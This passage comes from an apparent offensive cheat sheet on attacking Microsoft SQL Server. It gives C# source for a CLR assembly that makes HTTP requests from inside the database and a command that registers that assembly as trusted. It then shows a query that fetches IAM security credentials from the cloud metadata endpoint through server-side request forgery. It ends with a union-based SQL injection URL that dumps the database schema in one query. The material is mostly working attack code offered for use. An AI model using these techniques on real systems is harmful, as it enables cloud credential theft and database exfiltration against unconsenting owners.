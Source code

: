 [This Github repo has the Visual Studio project and the installation instructions](https://github.com/infiniteloopltd/SQLHttp) to load the binary into MSSQL as a CLR assembly and then invoke HTTP GET requests from within MSSQL.

The [`http.cs` code uses the `WebClient` class to make a GET request and fetch the content](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) as specified

```csharp
using System.Data.SqlTypes;
using System.Net;

public partial class UserDefinedFunctions
{
    [Microsoft.SqlServer.Server.SqlFunction]
    public static SqlString http(SqlString url)
    {
        var wc = new WebClient();
        var html = wc.DownloadString(url.Value);
        return new SqlString (html);
    }
}
```

In the installation instructions, run the following before the `CREATE ASSEMBLY` query to add the SHA512 hash of the assembly to the list of trusted assemblies on the server (you can see the list using `select * from sys.trusted_assemblies;`)

```sql
EXEC sp_add_trusted_assembly 0x35acf108139cdb825538daee61f8b6b07c29d03678a4f6b0a5dae41a2198cf64cefdb1346c38b537480eba426e5f892e8c8c13397d4066d4325bf587d09d0937,N'HttpDb, version=0.0.0.0, culture=neutral, publickeytoken=null, processorarchitecture=msil';
```

Once the assembly is added and the function created, we can run the following to make our HTTP requests

```sql
DECLARE @url varchar(max);
SET @url = 'http://169.254.169.254/latest/meta-data/iam/security-credentials/s3fullaccess/';
SELECT dbo.http(@url);
```

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/15.png)

## **Quick exploitation: Retrieve an entire table in one query**

There exist two simple ways to retrieve the entire contents of a table in one query — the use of the FOR XML or the FOR JSON clause. The FOR XML clause requires a specified mode such as «raw», so in terms of brevity FOR JSON outperforms it.

The query to retrieve the schema, tables and columns from the current database:

```
https://vuln.app/getItem?id=-1'+union+select+null,concat_ws(0x3a,table_schema,table_name,column_name),null+from+information_schema.columns+for+json+auto-- 
```
